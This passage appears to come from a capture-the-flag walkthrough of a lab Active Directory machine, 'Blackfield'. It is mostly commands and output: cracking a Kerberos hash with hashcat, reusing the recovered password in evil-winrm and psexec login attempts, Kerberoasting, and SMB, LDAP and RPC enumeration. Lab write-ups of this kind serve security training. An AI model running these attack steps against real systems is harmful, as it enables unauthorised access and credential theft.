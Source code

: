There is chance that the hash is damaged. Just capture it and try again

```bash
hashcat -m 18200 --force -a 0 hash /usr/share/wordlists/rockyou.txt
```
support@BLACKFIELD.LOCAL
#00^BlackKnight

### Try to login with evil-winrm and psexec.py
```bash
evil-winrm -i $IP -u support -p "#00^BlackKnight"

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
```

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py BLACKFIELD.LOCAL/support:'#00^BlackKnight'@BLACKFIELD.LOCAL

[*] Requesting shares on BLACKFIELD.LOCAL.....
[-] share 'ADMIN$' are not writable.
```

### Access Check should be done before trying login
##### winrm
```bash
crackmapexec winrm $IP -u support -p '#00^BlackKnight'
```

can't use winrm as expected since no shares writable.

##### ldap
```bash
ldapsearch -h $IP -D cn=support,dc=blackfield,dc=local -w '#00^BlackKnight' -x -b 'dc=blackfield,dc=local'
```
can't do either `ldap_bind: Invalid credentials (49)`

##### SMB again

```bash
crackmapexec smb $IP -u support -p '#00^BlackKnight'

smbmap -H $IP -u support -p '#00^BlackKnight'
```

### Kerberoasting since 88 is opening
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip $IP BLACKFIELD.LOCAL/support:'#00^BlackKnight' -save -outputfile GetUserSPNs.out
```

No entries found!

### Try rpcclient again since none of them worked
```bash
rpcclient -U support $IP

enumdomusers
```
